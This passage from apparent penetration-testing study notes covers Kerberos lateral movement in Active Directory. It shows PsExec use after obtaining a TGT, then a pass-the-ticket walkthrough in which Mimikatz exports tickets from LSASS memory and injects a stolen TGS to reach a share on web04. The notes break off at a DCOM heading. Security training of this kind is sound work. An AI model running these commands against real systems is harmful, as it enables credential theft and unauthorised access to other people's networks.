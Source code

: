 ```
net use \\target_hostname
```

now that we have prompted an authentication `klist` will show our new kerberos TGT.

Now that we have a TGT we can use any tools that rely on kerberos including the official PsExec application.

In the context of our PowerShell session obtained earlier all we need to do is simply run the application we wish to use.

```
.\PsExec.exe \\files04 cmd
```

TGT is only usable of the machine it was created for and a TGS provides more flexibility.

### Pass the Ticket

pass the ticket takes advantage of TGS which may be exported and reinjected elsewhere on the network then used to authenticate to a specific service. If the tickets belong to the current user then no administrative privileges are required.

we can check out access to a target:
```
ls \\web04\backup
```
for example we receive permission denied.

We can inject another current users TGS into our own session using Mimikatz:
```
privilege::debug
sekurlsa::tickets /export
```

this will pass the LSASS process space in memory for any TGT/TGS which is then saved to disk in the kirbi Mimikatz format.

we can verify the newly generated tickets using:
```
dir *.kirbi
```

we can then select a ticket that we need to access the next target system and make use of it in Mimikatz:
```
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```

this ticket will now be in our current users session

we can now verify out access to the target:
```
ls \\web04\backup
```
and get a listing of the directory using the newly imported ticket


### DCOM
